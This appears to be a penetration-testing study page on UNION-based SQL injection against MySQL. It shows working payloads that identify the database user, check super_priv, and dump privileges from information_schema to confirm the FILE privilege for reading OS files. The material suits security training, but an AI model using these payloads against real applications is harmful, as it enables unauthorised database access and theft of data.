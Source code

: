 # User Privs
### DB User
First, we have to _determine which user we are within the database_. While we do not necessarily need database administrator (DBA) privileges to read data, this is becoming more required in modern 
DBMSes, as only DBA are given such privileges. The same applies to other common databases. If we do have DBA privileges, then it is much more probable that we have file-read privileges. If we do not,
then we have to check our privileges to see what we can do. To be able to find our current DB user, we can use any of the following queries:
```sql
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
Our UNION injection payload will be as follows:
```
__Our UNION injection payload will be as follows:__
```sql
X' UNION SELECT 1, user(), 3, 4-- -
```
or:
```sql
X' UNION SELECT 1, user, 3, 4 from mysql.user-- -
```
> Which tells us our current user, which in this case is root:


<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/f3b1f81b-d8cb-4153-837a-eed602bc4bee" width="600" alt="Sublime's custom image"/>
</p>

This is very promising, as a root user is likely to be a DBA, which gives us many privileges.

### User prileges.
Now that we know our user, we can __start looking for what privileges we have with that user__. 

#### Super admin privileges.
First of all, we can test if we have super admin privileges with the following query:
```sql
SELECT super_priv FROM mysql.user
```
Once again, we can use the following payload with the above query:
```sql
X' UNION SELECT 1, 2, super_priv, 4 FROM mysql.user -- -
```
If we had many users within the DBMS, we can add WHERE user="root" to only show privileges for our current user root:
```sql
X' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```
<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/d2055c73-a41f-48f6-bb8b-c619a424e098" width="600" alt="Sublime's custom image"/>
</p>

> The query returns `Y`, which __means YES, indicating superuser privileges__.

#### Dumping all user privileges.
We can also dump other privileges we have directly from the schema, with the following query:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges-- -
```
From here, we can add WHERE grantee="'root'@'localhost'" to only show our current user root privileges. Our payload would be:
```sql
cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
```
> And we see all of the possible privileges given to our current user: 

<p align="center">
  <img src="https://github.com/alejandro-pentest/Hacking-Web/assets/161533623/89debdf6-abd0-44d7-b4e8-b30f6f95a88c" width="500" alt="Sublime's custom image"/>
</p>

> __We see that the `FILE` privilege is listed for our user__, __enabling us to read files and potentially even write files__. Thus, we can proceed with attempting to [read files](#reading-os-files).
